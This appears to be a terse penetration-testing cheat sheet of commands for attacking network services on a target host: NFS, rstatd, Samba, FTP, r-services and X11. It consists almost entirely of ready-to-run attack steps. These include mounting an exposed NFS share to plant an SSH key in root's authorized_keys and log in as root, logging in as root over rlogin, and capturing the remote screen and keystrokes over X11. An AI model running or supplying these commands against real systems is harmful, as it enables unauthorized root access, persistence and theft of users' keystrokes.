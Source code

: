 # Services

## NFS

Show mount,

```bash
showmount -e <target IP>
```

Mount and access remote host,
```bash
mkdir /tmp/mount
mount -t nfs -o nolock <target IP>:/share /tmp/mount/
cat /root/.ssh/id_rsa.pub >> /tmp/mount/root/.ssh/authorized_keys
umount /tmp/mount
ssh root@<target IP>
```

## Rstatd

```bash
rsysinfo <target IP>
```

## Samba

```bash
smbclient -L //<target IP>
```

## FTP

```bash
ftp admin@<target IP>
user
admin
pwd
```

## Rservices

```bash
rlogin -l root <target IP>
```

## X11

```bash
xspy <target IP>

xwd -display <targetIP>:<display> -root -out file.xwd
xwud -in file.xwd

xkey <targetIP>:0.0 
```
